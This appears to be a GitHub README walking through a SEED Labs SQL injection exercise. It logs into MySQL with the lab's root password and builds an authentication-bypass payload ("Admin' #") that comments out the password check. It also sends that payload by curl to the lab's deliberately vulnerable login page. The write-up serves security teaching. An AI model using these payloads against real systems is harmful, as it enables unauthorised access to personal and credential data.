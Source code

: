 # SQL_INJECTION
###Task 1: 	Log in MYSQL:

	
  
    mysql -u root -pseedubuntu;
    
		mysql> use Users;
    
		mysql> show tables;
	
//Use such a SQL query:
		
    select * from credential where Name='Alice';



![alt text](https://github.com/RubiaQayoum/SQL_INJECTION/blob/main/task%201.png)
 
 
 ###Task 2: 
 -->Task 2.1
    
    .USERNAME: "Admin' #"
	  
    .PASSWORD: "xyz" (here is password is optional)


//We will result in SQL Query

		
    SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password 
    FROM credential WHERE name='Admin' #' && password='xyz'
 
 --> Task 2.2
    1- Write Code on Terminator in Seed Lab:
	 
    
    curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	
  
    
    2- Copy the HTML code.
	  3- Make a new file in location "file:///home/seed/Documents/temp.html"
	  4- Run this location on browser
    
    
![alt text](https://github.com/RubiaQayoum/SQL_INJECTION/blob/main/task%202.1.png)


